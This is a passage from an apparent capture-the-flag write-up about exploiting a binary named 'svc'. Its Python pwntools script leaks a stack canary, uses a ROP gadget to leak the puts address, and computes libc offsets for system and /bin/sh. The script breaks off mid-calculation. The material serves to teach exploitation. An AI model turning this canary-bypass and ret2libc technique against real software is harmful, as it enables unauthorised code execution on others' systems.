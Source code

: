 So the offset to system is `-0x2b280` and the offset to /bin/sh is `0x11a320`.  Let's test these offsets in our exploit to see if we can calculate those addresses:

Here is the modified script
```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt)
target.sendline(leak_payload)
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))

#Calculate the address of system and /bin/sh
system = puts_leak - 0x2b280
```